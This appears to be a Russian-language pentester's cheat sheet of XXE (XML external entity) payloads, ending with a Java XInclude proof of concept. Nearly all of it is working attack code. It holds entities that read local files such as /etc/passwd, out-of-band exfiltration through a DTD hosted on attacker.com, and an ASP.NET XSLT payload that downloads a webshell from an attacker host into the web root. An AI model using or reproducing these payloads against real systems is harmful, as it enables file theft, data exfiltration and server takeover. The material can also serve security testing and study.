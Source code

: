 # Examples XXE

## Basic

1 Можем использовать объявленную сущность в теле XML (здесь через &)

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://evil.com/xxe"> ]>
<root>
    <data>&xxe;</data>
</root>
```

2 Можем использовать объявленную сущность как определение следующей сущности в Doctype (здесь через %).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://evil.com/xxe"> %xxe; ]>
<root></root>
```

## Include local file

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
    <data>&xxe;</data>
</root>
```

Некоторые парсеры позволяют листить директории:&#x20;

```markup
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///Users/"> ]>
```

## http request

```markup
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://example.com/test"> %ext;
]>
<r></r>
```

```markup
<?xml version="1.0" ?>
<!DOCTYPE foo [
<!ENTITY % payload SYSTEM "file:///etc/">
<!ENTITY % dtd SYSTEM "ftp://example.com/poc2.txt">
%dtd;
%release;
]><foo>ehlo</foo>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test SYSTEM "https://yandexsjknvdkjsdnvkjnskjvnskjd.ru/xxe">
```

## OOB+XXE

Эта техника (OOB - Out-of-Band) используется для отправки результата чтения локального файла

У себя (на attacker.com) раполагаем evil.dtd

```markup
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;
```

Отправляем уязвимому веб-приложению

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

TODO: переделать в oob на ftp сервер

## XXE -> RCE

на php просто, есть примеры в инете

на ASP.Net такой пэйлоад видел в статье — [https://blog.zsec.uk/out-of-band-xxe-2/amp/](https://blog.zsec.uk/out-of-band-xxe-2/amp/), на проекте не взлетел:

```markup
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://VICTIM.COM/pwned">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://ATTACKERHOST/webshell.aspx",
                       @"c:\inetpub\wwwroot\zephrShell.aspx");

    return "Shell Uploaded Successfully @ /zephrShell.aspx";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
```

## XInclude

```markup
<?xml version='1.0' encoding="UTF-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <p>Текст моего документа</p>
  <xi:include text="parse" href="copyright.xml"/>
</document>
```

Java PoC

```java
package com.company;

import javax.xml.parsers.SAXParser;
import javax.xml.parsers.SAXParserFactory;

import org.xml.sax.Attributes;
import org.xml.sax.SAXException;
import org.xml.sax.helpers.DefaultHandler;

public class Main {

    public static void test() {
        final String fileName = "test.xml";

        /* test.xml
        <Document xmlns="urn:iso:std:iso:20022:tech:xsd:pain.001.001.03" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xi="http://www.w3.org/2001/XInclude">
            <PHONEBOOK>
                <PERSON>
                    <NAME>
                        <MAIN_NAME>Noname person</MAIN_NAME>Joe Wang
                    </NAME>
                    <Nm xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="https://example.com" /></Nm>
                </PERSON>
            </PHONEBOOK>
        </Document>
        */

        try {
            SAXParserFactory factory = SAXParserFactory.newInstance();
            factory.setXIncludeAware(true);  // без этого не будет работать !!!
            factory.setNamespaceAware(true); // без этого не будет работать !!!
            factory.setFeature("http://apache.org/xml/features/xinclude", true); // без этого не будет работать !!!
            SAXParser saxParser = factory.newSAXParser();

            DefaultHandler handler = new DefaultHandler() {
                boolean name = false;
                // Метод вызывается когда SAXParser "натыкается" на начало тэга
                @Override
                public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
                    // Если тэг имеет имя NAME, то мы этот момент отмечаем - начался тэг NAME
                    if (qName.equalsIgnoreCase("Nm")) {
                        name = true;
                    }
                }

                // Метод вызывается когда SAXParser считывает текст между тэгами
                @Override
                public void characters(char ch[], int start, int length) throws SAXException {
                    // Если перед этим мы отметили, что имя тэга NAME - значит нам надо текст использовать.
                    if (name) {
                        System.out.println("Name: " + new String(ch, start, length));
                        name = false;
                    }
                }
            };

            // Стартуем разбор методом parse, которому передаем наследника от DefaultHandler, который будет вызываться в нужные моменты
            saxParser.parse(fileName, handler);
            System.out.println("Test");
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
	// write your code here
        test();
        System.out.println("Test");
    }
}

```
